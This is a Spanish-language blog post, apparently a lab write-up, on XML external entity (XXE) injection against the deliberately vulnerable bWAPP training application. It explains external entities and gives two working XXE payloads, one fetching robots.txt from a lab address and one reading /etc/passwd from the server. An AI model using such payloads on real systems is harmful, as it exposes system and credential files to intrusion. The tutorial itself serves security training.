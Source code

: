 ```yaml
---
layout: post
title: bWAPP - xxe injection
subtitle: "bWAPP - xxe injection"
tags: [xml,xxe]
---
```


> **XML** (Extensible Makuo Language) es un lengaje de marcado que se usa comunmente en el desarrollo web. Se utiliza para almacenar y transportar datos.

**version**: se utiliza para especificar la versió del estandar XML que se está utilizando   
**encoding**: se declara para especificar la codificación a utilizar.  

### Que es una entidad

Son la forma de representar datos que estan presentes dentro de un documento XML.

La declaración de una entidad externa usa la palabra clave `SYSTEM` y debe especificar una `URL` desde el cual se debe cargar el valor de la entidad.

`<! ENTITY var SYSTEM "URL">`

`var`: nombre de la entidad  
`SYSTEM`: palabra clave utilizada  
`URL`: url que queremos obtener al realizar un ataque xxe  

## Ataque XXE

Interceptamos la petición de la opción `external Injection Attacks` de la aplicación `bWAPP`.

![xml](../assets/imgs/xxeb/xml.png)

Se puede observar que no hay ningun filtro aplicado por lo que es posible un XXE.  
haciendo un análisis de los campos establecidos concluyo que el campo login es inyectable.

Declaramos un `doctype` con el nombre **reset** y lugo dentro de eso declaramos una entidad llamada **bee**. Usamos el identificador de `SYSTEM` y lugo ingreo la URL de robots.txt.

```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "http://192.168.0.106/bWAPP/robots.txt">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>
```

![robots](../assets/imgs/xxeb/robots.png)

**Archivo remoto**

```
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY bee SYSTEM "file:///etc/passwd">
	]>
	<reset>
		<login>
			&bee;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>

![passwd](../assets/imgs/xxeb/passwd.png)
